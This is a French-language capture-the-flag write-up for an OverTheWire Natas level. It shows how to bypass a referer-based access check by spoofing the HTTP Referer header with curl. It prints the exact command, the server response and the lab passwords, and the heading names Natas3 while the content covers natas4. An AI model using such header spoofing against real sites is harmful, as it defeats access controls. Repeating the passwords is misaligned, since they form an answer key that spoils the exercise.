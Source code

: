 ## Over-The-Wire -writeup-
### Natas3 (http://natas3.natas.labs.overthewire.org/)

---
#### Etape 1

"Accès refusé, vous visitez le site depuis "..", et les utilisateurs authorisés doivent venir depuis "http://natas5.natas.labs.overthewire.org/"
On va donc **changer notre referer**, une en-tête de requette HTTP qui informe les sites de la provenance des utilisateurs (d'où ils viennent, de quel lien), par le lien demandé.

Je vais utiliser une commande **cUrl** qui va se connecter à la page en changeant le *referer* pour moi:

*Structure de la commande pour se connecter à la page: **curl -u username:password http://target-address/**
Ici cUrl renvoie la même erreur que sur le navigateur, puisque le referer n'a pas été changé. On s'est juste identifié.

Structure de la command pour changer de referer: **curl --referer http:/referer-adress/ http://target-address**
Ici cUrl envoie une requête en informant http://target-address/ que l'on provient de http://referer-address/*

**Fusionnons les deux**:
> curl -u username:password http://target-address/ --referer http://referer-address/ http://target-address/

Dans notre cas, la commande exacte est:
> curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/

---
cUrl renvoie :
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

---
Mot de passe: **iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
